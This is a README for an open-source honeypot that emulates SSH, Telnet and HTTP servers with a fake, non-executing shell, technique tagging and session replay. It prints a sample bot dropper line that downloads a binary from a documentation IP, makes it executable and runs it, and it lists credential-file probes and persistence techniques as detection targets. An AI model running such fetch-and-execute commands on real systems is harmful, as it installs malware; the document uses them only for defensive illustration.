



<div align="center">


# honeynet

**A deceptive Linux server that bots love to break into.**<br>
SSH, Telnet and HTTP honeypots with a fake bash, attack-technique tagging, and a live dashboard with session replay.

[](https://github.com/born2feel/honeynet/actions/workflows/ci.yml)


[Features](#what-it-captures) · [Quick start](#quick-start) · [Deploy](#deploying-on-a-vps) · [Architecture](#architecture) · [Hardening](#hardening) · [API](#api)

</div>



> [!NOTE]
> The screenshots show the built-in **demo mode** (`-demo`): synthetic traffic modelled on real honeypot data. Source
> addresses come only from the RFC 5737 documentation ranges, so no real host is named as an attacker.

honeynet pretends to be a poorly secured Ubuntu server. Bots that scan the internet find it, try passwords,
"log in", and run their payload scripts against a fake shell. Every step is recorded, tagged with the technique
it represents, and streamed to a real-time dashboard.

## Highlights

- 🪤 **Three sensors in one process:** a real SSH handshake, Telnet built for IoT botnets, and an HTTP server with bait login pages and a fake `.env`
- 🐚 **A fake bash that keeps bots talking:** 100+ commands, pipes, redirects and `sh -c` over an in-memory filesystem, with **zero real execution**
- 🏷️ **Technique tagging:** SQLi, XSS, Log4Shell, path traversal, malware downloads, persistence, cryptominers, defense evasion, loosely mapped to MITRE ATT&CK
- 🗺️ **Live dashboard:** world map with real-time pings, activity timeline, top credentials, commands and techniques over a WebSocket feed
- ▶️ **Session replay:** watch any intrusion as a terminal recording at 1×, 4× or 16×, and share a link to it
- 📦 **One static binary:** pure-Go SQLite, dashboard embedded, a distroless non-root image with a read-only filesystem
- 🛡️ **Built to be attacked:** connection limits, session deadlines, bounded everything, a strict CSP for rendering hostile input

## What it captures

| Sensor | Port | What attackers see | What gets recorded |
|---|---|---|---|
| **SSH** | 2222 → 22 | OpenSSH 8.9 on Ubuntu 22.04 (real handshake via `x/crypto/ssh`) | client banner, every password and public-key fingerprint, interactive and `exec` commands with output, port-forwarding targets |
| **Telnet** | 2323 → 23 | A Linux login prompt (RFC 854 negotiation) | IoT botnet logins (Mirai & co.), busybox probes, dropper chains |
| **HTTP** | 8080 → 80 | Apache with WordPress, phpMyAdmin and admin login pages, a bait `.env` | method, path, user agent, body, posted credentials, attack tags |

### The fake shell

After login the attacker gets an emulated bash (`internal/shell`), **not a real one: nothing is ever executed**.
It interprets a practical subset of sh: `;`, `&&`, `||`, pipes, `>`/`>>` redirects, quoting, `$VAR`,
`sh -c`, `curl … | sh`. All of this runs against an in-memory filesystem with a believable `/proc/cpuinfo`,
`/etc/passwd`, `uname`, `free` and so on. A typical dropper plays out like this:

```text
root@srv-prod-01:~# cd /tmp; wget http://198.51.100.23/bins/x86_64; chmod +x x86_64; ./x86_64 ssh
--2026-10-28 18:13:41--  http://198.51.100.23/bins/x86_64
...
'x86_64' saved [1342776/1342776]

Segmentation fault (core dumped)
```

The bot believes its download worked. The URL is extracted and stored, and the "binary" is inert bytes in memory.

### Session replay

Any recorded session can be replayed in the dashboard as a terminal recording. The real gaps between keystrokes
are kept (long pauses compressed), playback runs at 1×, 4× or 16×, and you can link to a session (`#session=<id>`).



### Technique tagging

`internal/detect` tags each event so the dashboard answers *what was this trying to do?*, not only *what was typed*:

- **HTTP:** SQL injection, XSS, path traversal, command injection, Log4Shell (also in headers), secrets probes
  (`.env`, `.git/config`, `.aws/credentials`), IoT router exploits, PHPUnit RCE, WordPress brute force, scanner
  user agents. Payloads are URL-decoded twice to catch double encoding.
- **Shell commands**, loosely following MITRE ATT&CK tactics: discovery, malware download, execution, persistence
  (`authorized_keys`, `crontab`), defense evasion (`history -c`, killing rivals), cryptominers, botnet probes,
  lateral movement.

## Quick start

**Demo, no exposure** (synthetic traffic, everything bound to localhost):

```bash
docker compose -f docker-compose.demo.yml up --build
```

Then open http://localhost:9000.

**From source** (Go 1.27+, Node 24+):

```bash
make build
./bin/honeynet -demo
```

Point real tools at it: `ssh -p 2222 root@localhost` (password `123456`), `telnet localhost 2323`,
`curl localhost:8080/.env`. Your own sessions show up on the dashboard live.

## Deploying on a VPS

A $5 VPS starts receiving SSH brute force within minutes of booting.

1. **Move your real sshd off port 22 first** (e.g. `Port 22022` in `/etc/ssh/sshd_config`), or you will lock yourself out.
2. Get the free [GeoLite2 City](https://www.maxmind.com/en/geolite2/signup) database and put `GeoLite2-City.mmdb` into `./geoip/`.
3. `cp .env.example .env` and set a long random `HONEYNET_DASHBOARD_TOKEN`.
4. `docker compose up -d`

The dashboard binds to `127.0.0.1:9000` on the host. Reach it through an SSH tunnel:
`ssh -L 9000:localhost:9000 -p 22022 you@vps`.

## Architecture



- **Sensors never block on storage.** `Emit` is a non-blocking send into a buffered queue. Under a flood, events
  are dropped and counted instead of letting an attacker stall the honeypot by outpacing the disk.
- **The recorder** drains the queue in batches (256 events or 250 ms) inside one transaction, assigns IDs and only
  then publishes to the live bus, so the feed never shows an event the API can't return.
- **The sessions table is maintained at write time** (connect → auth → commands → disconnect), so listing sessions
  never aggregates the events table.
- **Dashboard aggregates** run concurrently over covering indexes. Rows carry bulky payloads such as command
  output, so scanning narrow indexes is about 5× faster than scanning the table. Results are cached for 3 s, so many
  open tabs cost one query.
- **Pure Go SQLite** (`modernc.org/sqlite`): no cgo, so the image is `distroless/static`.

### Project layout

| Path | Contents |
|---|---|
| `cmd/honeynet` | wiring, config, graceful shutdown, demo backfill, retention pruning |
| `internal/honeypot/{sshpot,telnetpot,httppot}` | the three sensors |
| `internal/honeypot` | shared login policy, accept loop with limits, shell loop |
| `internal/shell` | sh tokenizer/parser, 100+ emulated commands, in-memory filesystem |
| `internal/detect` | technique classifiers, URL extraction |
| `internal/recorder` | queue → enrich → batch insert → publish |
| `internal/store` | schema, writes, dashboard queries |
| `internal/api` | REST, WebSocket live feed, token auth, security headers, embedded SPA |
| `internal/demo` | synthetic traffic generator |
| `web/` | React 19 + TypeScript dashboard (d3-geo map, hand-rolled SVG charts) |

## Hardening

A honeypot invites hostile traffic by design, so the honeypot itself is built defensively:

- **No execution path.** The shell is an interpreter over in-memory state. Downloads are never fetched, and
  "uploaded" files are bytes in a map that disappear with the session.
- **Resource limits** on every connection: global and per-IP connection caps, idle and absolute session timeouts,
  command count limits, capped output, files and request bodies, and a bounded nesting depth for `sh -c`.
- **Container:** distroless (no shell, no package manager), non-root, read-only rootfs, all capabilities dropped,
  `no-new-privileges`, memory and PID limits.
- **The dashboard treats every string as hostile.** React escapes everything, control characters and ANSI escapes
  are stripped, and nothing uses `dangerouslySetInnerHTML`. On top of that there is a strict CSP (`script-src 'self'`),
  `X-Frame-Options: DENY`, a WebSocket origin check, and an optional bearer token compared in constant time.
- **The dashboard is never on a honeypot port** and binds to localhost by default.
- **Stable fingerprint:** SSH host keys are generated once and persisted. A key that changes on every restart is
  an easy honeypot tell.

See [SECURITY.md](SECURITY.md) for the threat model and known limitations.

## Configuration

Flags override environment variables.

| Env | Flag | Default | |
|---|---|---|---|
| `HONEYNET_SSH_ADDR` | `-ssh` | `:2222` | empty disables the sensor |
| `HONEYNET_TELNET_ADDR` | `-telnet` | `:2323` | |
| `HONEYNET_HTTP_ADDR` | `-http` | `:8080` | |
| `HONEYNET_DASHBOARD_ADDR` | `-dashboard` | `127.0.0.1:9000` | |
| `HONEYNET_DASHBOARD_TOKEN` | `-token` | | required by `/api/*` when set |
| `HONEYNET_DATA_DIR` | `-data` | `./data` | SQLite database and SSH host keys |
| `HONEYNET_GEOIP_DB` | `-geoip` | | path to `GeoLite2-City.mmdb` |
| `HONEYNET_HOSTNAME_FAKE` | `-hostname` | `srv-prod-01` | what the fake shell reports |
| `HONEYNET_RETENTION` | `-retention` | `30d` | delete older events, `0` keeps all |
| `HONEYNET_MAX_CONNS` / `_PER_IP` | `-max-conns` / `-max-conns-per-ip` | `512` / `8` | |
| `HONEYNET_DEMO` | `-demo` | `false` | synthetic traffic |
| `HONEYNET_DASHBOARD_ORIGINS` | `-origins` | | extra WebSocket origins, e.g. `localhost:5173` for `npm run dev` |

## API

| Endpoint | |
|---|---|
| `GET /api/stats?window=1h\|24h\|7d\|30d\|all` | totals, timeline, top-N lists |
| `GET /api/map?window=…` | attack origins aggregated by location |
| `GET /api/events?limit=&before=` | recent events, paginated by ID |
| `GET /api/sessions?logged_in=1&limit=&offset=` | SSH/Telnet sessions |
| `GET /api/sessions/{id}` | one session with all of its events |
| `GET /api/live` | WebSocket stream of new events |
| `GET /api/health` | status, enabled sensors |

## Development

```bash
make test        # go test -race ./... and vitest
make lint        # go vet, gofmt, tsc
cd web && npm run dev      # dashboard with hot reload on :5173
./bin/honeynet -demo -origins localhost:5173
```

The tests drive the sensors over real sockets: an `x/crypto/ssh` client logs in, runs `exec` and interactive
shells and attempts port forwarding; a raw TCP client replays a Mirai-style Telnet login with IAC negotiation
and CR/NUL line endings. The store tests check every aggregate, and the API tests cover token auth, the CSP,
SPA fallback and the WebSocket origin check.

## License

MIT
